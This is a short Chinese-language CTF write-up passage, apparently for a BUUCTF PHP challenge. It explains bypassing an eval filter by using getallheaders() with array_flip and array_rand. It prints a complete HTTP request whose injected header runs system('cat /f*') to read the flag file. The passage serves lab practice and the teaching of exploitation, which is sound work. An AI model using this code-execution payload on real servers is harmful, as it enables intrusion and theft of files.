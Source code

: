 getallheaders会返回请求头里的所有信息，如图

![](./images/image-57.png)

然后这不知道怎么，使用pos截取请求头后，无法执行命令

于是尝试了另一种使用键值交换，然后随机读取执行命令的方式

![](./images/image-58.png)

这样随机读取就要我们自己抓包添加http头，然后不停发包

具体头如下

```
GET /bo0g1pop.php?star=eval(array_rand(array_flip(getallheaders()))); HTTP/1.1
Host: 114623be-b8ab-4497-a8c7-5c4f159b20f0.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
hyh: system("cat /f*");
```
